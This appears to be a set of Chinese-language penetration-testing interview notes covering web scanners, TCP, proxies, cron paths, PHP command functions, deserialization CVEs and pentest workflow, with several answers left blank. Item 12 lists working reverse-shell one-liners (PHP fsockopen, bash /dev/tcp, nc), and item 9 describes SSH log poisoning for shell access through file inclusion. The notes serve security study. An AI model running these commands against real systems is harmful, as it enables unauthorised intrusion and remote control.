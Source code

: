 linux 30%
windows 10%
渗透	原理 绕过思路 40%
开放性命题 20%

1. web扫描器的原理	
	Web漏洞扫描通常采用两种策略，第一种是被动式策略，第二种是主动式策略。所谓被动式策略就是基于主机之上，对系统中不合适的设置、脆弱的口令以及其他与安全规则抵触的对象进行检查;而主动式策略是基于网络的，它通过执行一些脚本文件模拟对系统进行攻击的行为并记录系统的反应，从而发现其中的漏 洞。利用被动式策略的扫描称为系统安全扫描，利用主动式的策略扫描称为网络安全扫描。
	

扫描过程 会使用什么形式进行扫描？
	head
	

2.  GET/POST 之外的请求有哪些？
	PUT HEAD DELETE CONNECT TRACE OPTIONS
	
3.  同源策略
	所谓的同源，指的是协议，域名，端口相同。

4. windows计划任务 
	schtasks at
linux 计划任务位置
		/var/spool/cron/*
		/var/spool/anacron/*
		/etc/crontab
		/etc/anacrontab
		/etc/cron.*
		/etc/anacrontab

5. ==tcp udp 区别==
	TCP是面向连接的，而UDP是面向非连接的，即发送数据前不需要建立连接。
	TCP提供可靠服务，而UDP无法保证可靠的数据传输。
	TCP面向字节流UDP面向报文
	TCP传输数据慢。UDP传输数据快。
tcp 三次握手
		三次握手过程
		建立TCP连接时，需要客户端和服务器共发送3个包。
		第一次：客户端发送初始序号x和syn=1请求标志
		第二次：服务器发送请求标志syn，发送确认标志ACK，发送自己的序号seq=y，发送客户端的确认序号ack=x+1
		第三次：客户端发送ACK确认号，发送自己的序号seq=x+1，发送对方的确认号ack=y+1

6. 正向代理和反向代理
	正向代理 是一个位于客户端和原始服务器(origin server)之间的服务器，为了从原始服务器取得内容，客户端向代理发送一个请求并指定目标(原始服务器)，然后代理向原始服务器转交请求并将获得的内容返回给客户端。客户端必须要进行一些特别的设置才能使用正向代理。
	反向代理（Reverse Proxy）实际运行方式是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个服务器。

7. http的基础认证爆破
	bp 账号：密码	base64

8. php命令执行函数有哪些？
	eval/assert/preg_replace/create_function
	system/passthru/exec/shell_exec/popen/proc_open/pcntl_exec/dl/`xx`

9. 已知有文件包含漏洞和22端口，如何利用最后拿shell
	ssh '<?php phpinfo(); ?>'@IP
	然后文件包含登陆日志
	ssh日志默认是在/var/log/auth.log下，默认其它用户是有read的权限的。
	
10. linux被入侵之后 你该怎么做应急？
	
https://xz.aliyun.com/t/1140
	
11. webshell检测思路

    

12. 常用的反弹shell命令

    ```php
    php -r '$sock=fsockopen("192.168.11.101",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

    ```bash
    bash -i >& /dev/tcp/192.168.20.151/8080 0>&1
    ```

    ```bash
    nc 192.168.31.151 7777 -t  /bin/bash
    ```

13. SQL注入写webshell

    

14. DNS在渗透中的作用
    子域名劫持  
    C2

15. 如何防治XXE漏洞产生？

    

16. XXE利用？

    

17. tomcat的加固

    https://www.cnblogs.com/panwenbin-logs/p/8177523.html

18. 如何防范ddos攻击	memcache放大	DNS放大 ntp放大

    

19. 常见中间件反序列化漏洞举例

    - fastjson 1.2.24 反序列化导致任意命令执行漏洞
    - JBoss JMXInvokerServlet 反序列化漏洞
    - JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
    - Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）
    - Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）
    - Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

20. CSRF、SSRF和重放攻击原理和区别

    

21. 渗透测试的流程*
    前期交互 -> 情报收集 -> 威胁建模 -> 漏洞分析 -> 漏洞攻击 -> 后渗透 -> 报告

22. xss绕过问题

    

23. DNS C2 溯源思路
    ipconfig /displaydns

24. 未授权访问漏洞的利用形式 （详细）

    
